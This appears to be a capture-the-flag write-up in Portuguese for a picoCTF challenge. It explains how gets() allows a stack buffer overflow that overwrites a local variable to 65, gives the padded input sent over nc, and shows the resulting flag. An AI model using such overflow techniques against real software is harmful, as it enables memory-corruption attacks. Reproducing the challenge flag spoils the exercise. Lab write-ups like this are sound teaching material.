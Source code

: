 ```c
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }

  printf("Bye!\n");
  fflush(stdout);
}
```

E aqui está o checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Inspecionando o código fonte, precisamos acionar esta condição: `if( num == 65 )`. Mas num é declarado como `64` logo após nossa variável `input`. Felizmente, há uma função `gets` que escreve em `input`. Podemos usá-la para causar um buffer overflow e sobrescrever `num`, que é uma variável local e, portanto, armazenada na pilha.

Precisamos fornecer uma entrada que sobrescreva nosso buffer de caracteres, sobreponha o espaço entre o buffer e a variável `num`, e então sobrescreva a própria variável `num`. Como queremos que `num` seja `65`, podemos simplesmente escrever o caractere `A` nele, já que o valor ASCII de `A` é `65`.

Aqui está o meu solve:

```
nc saturn.picoctf.net 56776
Enter a string: AAAAAAAAAAAAAAAABBBBBBBBA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```
